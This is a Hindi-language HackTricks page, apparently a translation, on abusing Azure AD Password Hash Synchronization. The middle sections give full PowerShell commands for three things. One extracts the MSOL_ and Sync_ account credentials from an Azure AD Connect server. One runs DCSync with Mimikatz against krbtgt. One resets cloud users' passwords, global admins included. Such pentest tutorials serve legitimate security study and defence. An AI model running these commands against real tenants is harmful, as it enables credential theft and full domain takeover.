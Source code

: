 # Az - PHS - पासवर्ड हैश सिंक्रनाइज़ेशन

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## मूल जानकारी

**पासवर्ड हैश सिंक्रनाइज़ेशन** हाइब्रिड आइडेंटिटी प्राप्त करने के लिए इस्तेमाल किए जाने वाले साइन-इन तरीकों में से एक है। **Azure AD Connect** एक ऑन-प्रिमाइसेस Active Directory इंस्टेंस से एक यूजर के पासवर्ड के हैश का हैश, क्लाउड-आधारित Azure AD इंस्टेंस में सिंक्रनाइज़ करता है।

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यह **सबसे आम तरीका** है जिसका इस्तेमाल कंपनियां ऑन-प्रिम AD को Azure AD के साथ सिंक्रनाइज़ करने के लिए करती हैं।

सभी **यूजर्स** और पासवर्ड हैशेस का **हैश** ऑन-प्रिम से Azure AD में सिंक्रनाइज़ किया जाता है। हालांकि, **क्लियर-टेक्स्ट पासवर्ड** या **मूल** **हैशेस** Azure AD में नहीं भेजे जाते हैं।\
इसके अलावा, **बिल्ट-इन** सिक्योरिटी ग्रुप्स (जैसे डोमेन एडमिन्स...) को Azure AD में **सिंक्रनाइज़ नहीं किया जाता** है।

**हैशेस सिंक्रनाइज़ेशन** हर **2 मिनट** में होता है। हालांकि, डिफ़ॉल्ट रूप से, **पासवर्ड समाप्ति** और **अकाउंट समाप्ति** Azure AD में **सिंक्रनाइज़ नहीं** होती है। इसलिए, एक यूजर जिसका **ऑन-प्रिम पासवर्ड समाप्त हो गया है** (बदला नहीं गया है) वह पुराने पासवर्ड का उपयोग करके Azure संसाधनों तक पहुंच जारी रख सकता है।

जब एक ऑन-प्रिम यूजर Azure संसाधन तक पहुंचना चाहता है, तो **प्रमाणीकरण Azure AD पर होता है**।

**PHS** जैसी सुविधाओं के लिए आवश्यक है जैसे **Identity Protection** और AAD Domain Services।

## पिवोटिंग

जब PHS कॉन्फ़िगर किया जाता है तो कुछ **विशेषाधिकार प्राप्त अकाउंट्स** स्वतः **बनाए जाते हैं**:

* ऑन-प्रिम AD में **`MSOL_<installationID>`** नामक अकाउंट स्वतः बनाया जाता है। इस अकाउंट को **Directory Synchronization Accounts** रोल दिया जाता है (देखें [दस्तावेज़ीकरण](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) जिसका मतलब है कि इसे ऑन-प्रिम AD में **रेप्लिकेशन (DCSync) अनुमतियां** होती हैं।
* Azure AD में **`Sync_<on-prem ADConnect Server का नाम>_installationID`** नामक एक अकाउंट बनाया जाता है। यह अकाउंट Azure AD में किसी भी यूजर (सिंक्रनाइज़ या क्लाउड केवल) का **पासवर्ड रीसेट** कर सकता है।

इन दो पिछले विशेषाधिकार प्राप्त अकाउंट्स के पासवर्ड **Azure AD Connect स्थापित सर्वर पर एक SQL सर्वर में संग्रहीत** होते हैं। एडमिन्स उन विशेषाधिकार प्राप्त यूजर्स के पासवर्ड को क्लियर-टेक्स्ट में निकाल सकते हैं।\
डेटाबेस `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` में स्थित है।

एक टेबल से कॉन्फ़िगरेशन निकालना संभव है, जिसमें से एक एन्क्रिप्टेड है:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**एन्क्रिप्टेड कॉन्फ़िगरेशन** **DPAPI** के साथ एन्क्रिप्टेड है और इसमें ऑन-प्रिम AD में **`MSOL_*`** यूजर के पासवर्ड और AzureAD में **Sync\_\*** का पासवर्ड शामिल है। इसलिए, इन्हें समझौता करने से AD और AzureAD में प्रिवेस्क करना संभव है।

इन क्रेडेंशियल्स कैसे संग्रहीत और डिक्रिप्ट किए जाते हैं, इसका [पूरा अवलोकन इस वार्ता में पाया जा सकता है](https://www.youtube.com/watch?v=JEIR5oGCwdg)।

### **Azure AD connect server** का पता लगाना

यदि **Azure AD connect स्थापित सर्वर** डोमेन से जुड़ा हुआ है (दस्तावेज़ीकरण में सिफारिश की गई), तो इसे इसके साथ पता लगाना संभव है:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### MSOL\_\* का दुरुपयोग
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
आप [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) का उपयोग करके इन क्रेडेंशियल्स को प्राप्त कर सकते हैं।
{% endhint %}

### Sync\_\* का दुरुपयोग

**`Sync_*`** खाते को समझौता करके किसी भी उपयोगकर्ता (वैश्विक प्रशासकों सहित) का **पासवर्ड रीसेट** करना संभव है
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
यह संभव है कि केवल **क्लाउड उपयोगकर्ताओं के पासवर्ड को संशोधित किया जाए** (भले ही वह अप्रत्याशित हो)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
इस उपयोगकर्ता का पासवर्ड डंप करना भी संभव है।

{% hint style="danger" %}
एक और विकल्प होगा **सेवा सिद्धांत को विशेषाधिकार प्राप्त अनुमतियाँ सौंपना**, जिसे **Sync** उपयोगकर्ता करने की **अनुमतियाँ** हैं, और फिर **उस सेवा सिद्धांत तक पहुँचना** प्रिवेस्क के तरीके के रूप में।
{% endhint %}

### Seamless SSO

PHS के साथ Seamless SSO का उपयोग संभव है, जो अन्य दुरुपयोगों के लिए संवेदनशील है। इसे जाँचें:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से नायक तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह में शामिल हों**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**।
* **HackTricks** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
